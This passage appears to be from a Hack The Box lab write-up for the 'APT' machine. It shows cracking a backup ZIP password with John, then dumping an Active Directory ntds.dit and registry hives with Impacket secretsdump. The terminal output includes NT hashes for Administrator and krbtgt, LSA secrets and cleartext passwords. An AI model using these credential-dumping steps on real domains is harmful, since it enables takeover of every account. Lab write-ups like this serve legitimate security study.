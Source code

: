 ┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash Using default input encoding: UTF-8 Loaded 1 password hash \(PKZIP \[32/64\]\) Will run 4 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status iloveyousomuch \(backup.zip\) 1g 0:00:00:00 DONE \(2021-03-29 21:06\) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger Use the "--show" option to display all of the cracked passwords reliably Session completed

```text
Then I loaded the hash into John.  It cracked in less than a second. The password was `iloveyousomuch`
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ unzip backup.zip Archive: backup.zip \[backup.zip\] Active Directory/ntds.dit password: inflating: Active Directory/ntds.dit  
inflating: Active Directory/ntds.jfm  
inflating: registry/SECURITY  
inflating: registry/SYSTEM

```text
Using this password I was able to successfully extract all of the files
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ secretsdump.py -ntds 'Active Directory/ntds.dit' -system registry/SYSTEM -security registry/SECURITY LOCAL Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

\[_\] Target system bootKey: 0x936ce5da88593206567f650411e1d16b \[_\] Dumping cached domain logon information \(domain/username:hash\) \[_\] Dumping LSA Secrets \[_\] $MACHINE.ACC $MACHINE.ACC:plain\_password\_hex:34005b00250066006f0027007a004700600026004200680052003300630050005b002900550032004e00560053005c004c00450059004f002f0026005e0029003c00390078006a0036002500230039005c005c003f0075004a0034005900500062006000440052004b00220020004900450053003200660058004b00220066002c005800280051006c002a0066006700300052006600520071003d0021002c004200650041005600460074005e0045005600520052002d004c0029005600610054006a0076002f005100470039003d006f003b004700400067003e005600610062002d00550059006300200059006400 $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb \[_\] DefaultPassword \(Unknown User\):Password123! \[_\] DPAPI\_SYSTEM dpapi\_machinekey:0x3e0d78cb8f3ed66196584c44b5701501789fc102 dpapi\_userkey:0xdcde3fc585c430a72221a48691fb202218248d46 \[_\] NL$KM 0000 73 4F 34 1D 09 C8 F9 32 23 B9 25 0B DF E2 DC 58 sO4....2\#.%....X 0010 44 41 F2 E0 C0 93 CF AD 2F 2E EB 13 81 77 4B 42 DA....../....wKB 0020 C2 E0 6D DE 90 79 44 42 F4 C2 AD 4D 7E 3C 6F B2 ..m..yDB...M~&lt;o. 0030 39 CE 99 95 66 8E AF 7F 1C E0 F6 41 3A 25 DA A8 9...f......A:%.. NL$KM:734f341d09c8f93223b9250bdfe2dc584441f2e0c093cfad2f2eeb1381774b42c2e06dde90794442f4c2ad4d7e3c6fb239ce9995668eaf7f1ce0f6413a25daa8 \[_\] Dumping Domain Credentials \(domain\uid:rid:lmhash:nthash\) \[_\] Searching for pekList, be patient \[_\] PEK \# 0 found and decrypted: 1733ad403c773dde94dddffa2292ffe9 \[\*\] Reading and decrypting hashes from Active Directory/ntds.dit Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: APT$:1000:aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb::: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:72791983d95870c0d6dd999e4389b211:::

...snipped 1000s of random users...

\[_\] ClearText password from Active Directory/ntds.dit APT$:CLEARTEXT:4\[%fo'zG`&BhR3cP[)U2NVS\LEYO/&^)<9xj6%#9\\?uJ4YPb`DRK" IES2fXK"f,X\(Ql_fg0RfRq=!,BeAVFt^EVRR-L\)VaTjv/QG9=o;G@g&gt;Vab-UYc Yd \[\*\] Cleaning up...

```text
There were hundreds of users on this domain!  Luckily there were a couple of plaintext passwords
```
